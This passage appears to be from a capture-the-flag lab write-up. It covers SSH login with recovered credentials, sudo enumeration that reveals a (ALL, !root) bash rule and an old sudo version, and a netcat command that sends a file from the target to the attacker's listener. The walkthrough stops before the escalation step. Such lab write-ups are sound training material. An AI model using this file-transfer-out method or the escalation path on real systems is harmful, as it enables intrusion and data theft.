 - Here we find Another username : james   & password : hackerrules!

# flags

- Now we know username and password , we will use ssh to login.

```shell
┌─[noxi0us@parrot]─[~/Desktop/tools/downloads]
└──╼ $ssh james@10.10.187.165
The authenticity of host '10.10.187.165 (10.10.187.165)' can't be established.
ECDSA key fingerprint is SHA256:yr7mJyy+j1G257OVtst3Zkl+zFQw8ZIBRmfLi7fX/D8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.187.165' (ECDSA) to the list of known hosts.
james@10.10.187.165's password: 


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@agent-sudo:~$ cat user_flag.txt 

james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

```

### Reverse image

- above we find a image too !@! , To download it on our system we will use netcat
- Our machine
`nc -lvnp 4444 > img.png`
- targett machine
`nc 10.10.187.188 4444 < alient_autospy.jpg`

- Then we will search it on google by image or by searching the name .


# Priv Esc


```shell
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash


james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```